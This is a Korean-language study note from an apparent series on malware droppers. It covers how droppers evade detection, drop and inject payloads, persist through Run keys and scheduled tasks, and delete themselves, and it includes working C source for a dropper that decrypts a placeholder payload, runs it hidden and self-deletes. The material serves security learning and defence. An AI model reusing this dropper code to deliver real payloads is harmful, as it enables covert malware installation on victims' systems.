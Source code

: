 ## Context

- **Tactic**: Malware Delivery Understanding
- **Technique**: Payload Deployment Analysis
- **Procedure**: Deconstruct dropper behavior and execution stages

## Core Idea

### Dropper란?
- Dropper는 **악성코드 배포를 위한 운반체(배달 상자)** 역할을 수행하는 프로그램이다.
- 최종적으로 실행될 `페이로드(랜섬웨어, RAT, 백도어 등)`를 시스템에 **드롭(Drop)**하여 실행 환경을 구성한다.
- 스스로 악의적인 행동을 수행하지 않으며, **페이로드를 안전하게 전달하고 실행하는 것이 주목적**이다.

![[dropper-schematic-diagram.png]]
**Figure 1.** dropper schematic diagram
### Dropper의 특징
- **탐지 회피**: 암호화된 형태로 페이로드를 포함하여 보안 솔루션의 탐지를 우회.
- **다양한 실행 방식**: 디스크에 파일을 저장하거나, 메모리에 직접 로드하여 실행 가능.
- **지속성 유지**: 레지스트리 등록, 작업 스케줄러 설정 등을 통해 시스템 재부팅 후에도 동작할 수 있음.
- **자기 삭제 기능**: 실행 후 탐지를 피하기 위해 흔적을 자동으로 제거 가능.

### Dropper 동작 흐름
![[dropper-execution-flow.png]]
**Figure 2.** dropper execution flow

1. **Dropper 실행** → 사용자가 Dropper(악성 실행 파일)를 실행
2. **페이로드 저장 (Dropping)**: 악성 페이로드를 저장하는 과정 수행
	- **디스크 저장:** `CreateFileA` → `WriteFile` 을 사용하여 디스크에 파일 드롭
	- **메모리 저장:** 페이로드를 메모리에 직접 로드(Reflective DLL Injection 등)하여 실행
3. **페이로드 실행 방식**: 저장된 페이로드를 실행하는 방식 선택
	- **디스크 실행:** `CreateProcessA/W`, `ShellExecute`를 사용하여 페이로드 실행
	- **메모리 인젝션:** `NtMapViewOfSection`, `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread` 등을 활용하여 다른 프로세스에 코드 인젝션 후 실행
4. **지속성 확보 (Persistence)**: 악성코드가 재부팅 후에도 실행되도록 설정 가능
	- **레지스트리 수정:** `RegSetValueExA/W`사용, 스타트업, Run 키 등을 수정해 자동 실행 설정
	- **작업 스케줄러 사용:** `schtasks /create` 통해 예약 작업(Task Scheduler)으로 자동 실행 설정
5. **자기 삭제 (Self-Delete)**: 실행 후 탐지를 피하기 위해 자기 자신을 삭제
	- **즉시 삭제:** `cmd /c del` 명령어 실행하여 즉시 파일 삭제
	- **재부팅 후 삭제:** `MoveFileExA`를 사용하여 재부팅 시 삭제 예약

## Code / Experiment
```c
#include <windows.h>
#include <stdio.h>
#include <shlobj.h>

// XOR encryption/decryption
void xor_cipher(char *data, size_t data_len, const char *key, size_t key_len) {
    for (size_t i = 0; i < data_len; i++) {
        data[i] ^= key[i % key_len];
    }
}

int main() {
    char tempPath[MAX_PATH], payloadPath[MAX_PATH], batchPath[MAX_PATH];
    char encryptedPayload[] = "ENCRYPTED_PAYLOAD_PLACEHOLDER";
    const char encryptionKey[] = "SECRET_KEY";

    // Generate random file path in temp directory
    GetTempPathA(MAX_PATH, tempPath);
    sprintf(payloadPath, "%s%08x.exe", tempPath, rand());

    // Decrypt payload in memory
    char *decryptedPayload = malloc(sizeof(encryptedPayload));
    memcpy(decryptedPayload, encryptedPayload, sizeof(encryptedPayload));
    xor_cipher(decryptedPayload, sizeof(encryptedPayload), encryptionKey, sizeof(encryptionKey) - 1);

    // Write decrypted payload to disk
    HANDLE hFile = CreateFileA(payloadPath, GENERIC_WRITE, 0, NULL,
                                CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile != INVALID_HANDLE_VALUE) {
        DWORD written;
        WriteFile(hFile, decryptedPayload, sizeof(encryptedPayload), &written, NULL);
        CloseHandle(hFile);
        free(decryptedPayload);

        // Execute payload
        STARTUPINFOA si = { .cb = sizeof(si), .dwFlags = STARTF_USESHOWWINDOW, .wShowWindow = SW_HIDE };
        PROCESS_INFORMATION pi;
        CreateProcessA(payloadPath, NULL, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
        CloseHandle(pi.hProcess); CloseHandle(pi.hThread);

        // Create batch script for self-deletion
        sprintf(batchPath, "%sdelete.bat", tempPath);
        HANDLE hBatch = CreateFileA(batchPath, GENERIC_WRITE, 0, NULL,
                                    CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hBatch != INVALID_HANDLE_VALUE) {
            char batchContent[512];
            sprintf(batchContent,
                "@echo off\n"
                ":repeat\n"
                "del \"%s\"\n"
                "if exist \"%s\" goto repeat\n"
                "del \"%s\"\n",
                __argv[0], __argv[0], batchPath);
            WriteFile(hBatch, batchContent, strlen(batchContent), &written, NULL);
            CloseHandle(hBatch);
            WinExec(batchPath, SW_HIDE);
        }
    } else {
        free(decryptedPayload);
    }

    return 0;
}
```

## Note

> One of several TTP-focused notes dissecting dropper mechanics.

**dropper-overview.md**
• **Tactic:** Malware Delivery Understanding
• **Technique:** Payload Deployment Analysis
• **Procedure:** Deconstruct dropper behavior and execution stages

**dropper-architecture.md**
• **Tactic:** Stealth Engineering
• **Technique:** Obfuscation & In-Memory Execution Patterns
• **Procedure:** Examine dropper file formats, storage methods, and execution models

**dropper-analysis-methods.md**
• **Tactic:** Threat Traceability
• **Technique:** Static & Dynamic Binary Analysis
• **Procedure:** Investigate dropper internals using r2, volatility, and process monitors

**dropper-code-deepdive.md**
• **Tactic:** Execution Mechanics Exploration
• **Technique:** Process Injection & Anti-Analysis
• **Procedure:** Reverse-engineer memory injection, control flow, and evasion logic

**dropper-mitigation.md**
• **Tactic:** Adaptive Defense Modeling
• **Technique:** Behavior Profiling & ML-Aided Detection
• **Procedure:** Design countermeasures using event logging, hardening, and ML classifiers